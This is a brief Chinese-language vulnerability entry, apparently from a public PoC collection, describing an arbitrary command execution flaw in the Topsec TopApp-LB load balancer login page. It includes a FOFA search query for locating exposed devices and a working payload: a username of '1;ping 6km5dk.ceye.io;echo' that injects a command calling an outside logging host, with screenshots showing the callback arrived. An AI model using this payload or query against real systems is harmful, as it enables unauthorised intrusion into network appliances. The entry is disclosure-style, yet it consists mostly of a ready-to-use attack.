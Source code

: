 # 天融信 TopApp-LB 命令执行漏洞

# 天融信 TopApp-LB 命令执行漏洞

## 漏洞描述

天融信负载均衡TopApp-LB系统存在任意命令执行

## 漏洞影响

```
天融信负载均衡TopApp-LB
```

## 网络测绘

```
app="天融信-TopApp-LB-负载均衡系统"
```

## 漏洞复现

登录界面中存在命令执行



账号:**1;ping 6km5dk.ceye.io;echo**

密码:**任意**



![](/images/202202091921374.png)



成功收到请求



![](/images/202202091921379.png)

